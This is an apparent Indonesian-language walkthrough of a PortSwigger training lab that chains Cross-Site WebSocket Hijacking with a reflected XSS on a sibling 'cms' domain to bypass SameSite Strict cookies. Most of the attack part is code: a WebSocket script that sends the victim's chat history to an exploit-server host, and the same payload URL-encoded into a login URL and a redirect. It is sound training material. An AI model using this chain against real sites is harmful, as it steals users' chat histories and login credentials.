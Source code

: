 # SameSite Strict Bypass melalui Domain Sibling

Fitur live chat pada lab ini rentan terhadap Cross-Site WebSocket Hijacking (CSWSH). Untuk menyelesaikan lab ini, masuklah ke akun korban.

Untuk melakukan ini, gunakan server exploit yang disediakan untuk melakukan serangan CSWSH yang mengekstrak riwayat chat korban ke server Burp Collaborator default. Riwayat chat tersebut berisi kredensial login dalam teks biasa.

Jika Anda belum melakukannya, kami menyarankan untuk menyelesaikan topik kami tentang kerentanan WebSocket sebelum mencoba lab ini.

**Hint:** Pastikan untuk melakukan audit menyeluruh terhadap semua permukaan serangan yang tersedia. Perhatikan kerentanan tambahan yang mungkin membantu Anda dalam menyampaikan serangan, dan ingat bahwa dua domain dapat berada dalam situs yang sama.

---------------------------------------------

**Referensi:**

- [Bypassing SameSite Restrictions](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions)

- [Cross-Site WebSocket Hijacking](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking)

![img](images/SameSite%20Strict%20bypass%20via%20sibling%20domain/1.png)

---------------------------------------------
1.test chat dulu 
2.cari endpoint /chat dan cari ini:

https://0ab1001e04a27891802f1766000700f2.web-security-academy.net
wss://0ab1001e04a27891802f1766000700f2.web-security-academy.net/chat
https://cms-0ab1001e04a27891802f1766000700f2.web-security-academy.net



3.cari dihistory burpsuite /resources/js/chat.js ,jika tidak ada kirim request sendiri contoh:

GET /resources/js/chat.js HTTP/2
Host: 0ab1001e04a27891802f1766000700f2.web-security-academy.net
Cookie: session=RInsjgHcRSwbqBvvzg3b6b6jF7mXNBgP
Sec-Ch-Ua: "Google Chrome";v="131", "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ab1001e04a27891802f1766000700f2.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9,id;q=0.8
Priority: u=0, i


4.temukan coding yang yang menghandle messages yg dikirim dari server dan mengelola koneski:
           let newWebSocket = new WebSocket(chatForm.getAttribute("action"));

            newWebSocket.onopen = function (evt) {
                writeMessage("system", "System:", "No chat history on record");
                newWebSocket.send("READY");
                res(newWebSocket);
            }

            newWebSocket.onmessage = function (evt) {
                var message = evt.data;

5.modifikasi codenya  menjadi seperrti ini:

<script>
  let newWebSocket = new WebSocket("wss://0ab1001e04a27891802f1766000700f2.web-security-academy.net/chat");
  
  newWebSocket.onopen = function (evt) {
    newWebSocket.send("READY");
  };

  newWebSocket.onmessage = function (evt) {
    var message = evt.data;
    fetch("https://exploit-0a1100b10456780a80081661016f0023.exploit-server.net/exploit?data=" + message);
  };
</script>

atau
 
<script>
  // Membuat koneksi WebSocket
  let newWebSocket = new WebSocket("wss://0ab1001e04a27891802f1766000700f2.web-security-academy.net/chat");

  // Menangani event ketika WebSocket terbuka
  newWebSocket.onopen = function (evt) {
    console.log("WebSocket connection opened.");
    newWebSocket.send("READY");
  };

  // Menangani pesan yang diterima dari server
  newWebSocket.onmessage = function (evt) {
    let message = evt.data;
    console.log("Message received:", message);

    // Mengirim data ke server eksternal menggunakan fetch
    fetch("https://exploit-0a1100b10456780a80081661016f0023.exploit-server.net/exploit?data=" + encodeURIComponent(message))
      .then(response => {
        if (!response.ok) {
          console.error("Failed to send data to exploit server:", response.statusText);
        } else {
          console.log("Data sent successfully to exploit server.");
        }
      })
      .catch(error => {
        console.error("Error occurred while sending data:", error);
      });
  };

  // Menangani event error WebSocket
  newWebSocket.onerror = function (evt) {
    console.error("WebSocket error occurred:", evt);
  };

  // Menangani event WebSocket ditutup
  newWebSocket.onclose = function (evt) {
    console.log("WebSocket connection closed:", evt);
  };
</script>


6.buka exploit dan kirim code tersebut ke victim dan lihat hasilnya:
![image](https://github.com/user-attachments/assets/1126c6bc-537a-43aa-880d-d68171b6be2c)

![image](https://github.com/user-attachments/assets/21d7d3c3-eb62-40ce-a028-377a97087a45)

7.kita lanjut ke tahap selanjutnya dengan mengexplore url ini:
https://cms-0ab1001e04a27891802f1766000700f2.web-security-academy.net
![image](https://github.com/user-attachments/assets/1224fd68-3c9c-402c-8c19-da359217aa79)

![image](https://github.com/user-attachments/assets/4c05d559-3098-4778-b7c2-476136959526)

bisa kita lihat diatas jika kita memasukkan user dan password maka akann ditampilkan dihalaman depan,kemungkinan besar terdapat kerentanan xss
![image](https://github.com/user-attachments/assets/8de18b1e-be92-493b-ad2d-a33dc0c4eaa0)
![image](https://github.com/user-attachments/assets/d9c6197c-17ca-4df8-8460-ef8cce8cca1b)

7.cari url ini dibupsuite lalu kirim ke reapter :https://cms-0ab1001e04a27891802f1766000700f2.web-security-academy.net/login
![image](https://github.com/user-attachments/assets/0f11b05e-d983-451e-a09c-289bae0127b8)

8.lalu ubah ke method get,lalu encode code pada tahap ke 5 menjadi url dan gabungkan dengan url tersebut:

![image](https://github.com/user-attachments/assets/1fe7a1c4-463d-4da3-8816-18842dd598ff)

https://cms-0ab1001e04a27891802f1766000700f2.web-security-academy.net/login?username=%3c%73%63%72%69%70%74%3e%0a%20%20%6c%65%74%20%6e%65%77%57%65%62%53%6f%63%6b%65%74%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%22%77%73%73%3a%2f%2f%30%61%62%31%30%30%31%65%30%34%61%32%37%38%39%31%38%30%32%66%31%37%36%36%30%30%30%37%30%30%66%32%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%22%29%3b%0a%20%20%0a%20%20%6e%65%77%57%65%62%53%6f%63%6b%65%74%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%20%28%65%76%74%29%20%7b%0a%20%20%20%20%6e%65%77%57%65%62%53%6f%63%6b%65%74%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%7d%3b%0a%0a%20%20%6e%65%77%57%65%62%53%6f%63%6b%65%74%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%20%28%65%76%74%29%20%7b%0a%20%20%20%20%76%61%72%20%6d%65%73%73%61%67%65%20%3d%20%65%76%74%2e%64%61%74%61%3b%0a%20%20%20%20%66%65%74%63%68%28%22%68%74%74%70%73%3a%2f%2f%65%78%70%6c%6f%69%74%2d%30%61%31%31%30%30%62%31%30%34%35%36%37%38%30%61%38%30%30%38%31%36%36%31%30%31%36%66%30%30%32%33%2e%65%78%70%6c%6f%69%74%2d%73%65%72%76%65%72%2e%6e%65%74%2f%65%78%70%6c%6f%69%74%3f%64%61%74%61%3d%22%20%2b%20%6d%65%73%73%61%67%65%29%3b%0a%20%20%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e&password=ddadad

<script>
  let newWebSocket = new WebSocket("wss://0ab1001e04a27891802f1766000700f2.web-security-academy.net/chat");
  
  newWebSocket.onopen = function (evt) {
    newWebSocket.send("READY");
  };

  newWebSocket.onmessage = function (evt) {
    var message = evt.data;
    fetch("https://exploit-0a1100b10456780a80081661016f0023.exploit-server.net/exploit?data=" + message);
  };
</script>


9.lalu ubah jadi sperti ini :
<script>
document.location = "https://cms-0ab1001e04a27891802f1766000700f2.web-security-academy.net/login?username=%3c%73%63%72%69%70%74%3e%0a%20%20%6c%65%74%20%6e%65%77%57%65%62%53%6f%63%6b%65%74%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%22%77%73%73%3a%2f%2f%30%61%62%31%30%30%31%65%30%34%61%32%37%38%39%31%38%30%32%66%31%37%36%36%30%30%30%37%30%30%66%32%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%22%29%3b%0a%20%20%0a%20%20%6e%65%77%57%65%62%53%6f%63%6b%65%74%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%20%28%65%76%74%29%20%7b%0a%20%20%20%20%6e%65%77%57%65%62%53%6f%63%6b%65%74%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%7d%3b%0a%0a%20%20%6e%65%77%57%65%62%53%6f%63%6b%65%74%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%20%28%65%76%74%29%20%7b%0a%20%20%20%20%76%61%72%20%6d%65%73%73%61%67%65%20%3d%20%65%76%74%2e%64%61%74%61%3b%0a%20%20%20%20%66%65%74%63%68%28%22%68%74%74%70%73%3a%2f%2f%65%78%70%6c%6f%69%74%2d%30%61%31%31%30%30%62%31%30%34%35%36%37%38%30%61%38%30%30%38%31%36%36%31%30%31%36%66%30%30%32%33%2e%65%78%70%6c%6f%69%74%2d%73%65%72%76%65%72%2e%6e%65%74%2f%65%78%70%6c%6f%69%74%3f%64%61%74%61%3d%22%20%2b%20%6d%65%73%73%61%67%65%29%3b%0a%20%20%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e&password=ddadad"
</script>

![image](https://github.com/user-attachments/assets/ad500fe0-106d-4f14-a30e-92c00d87e73a)
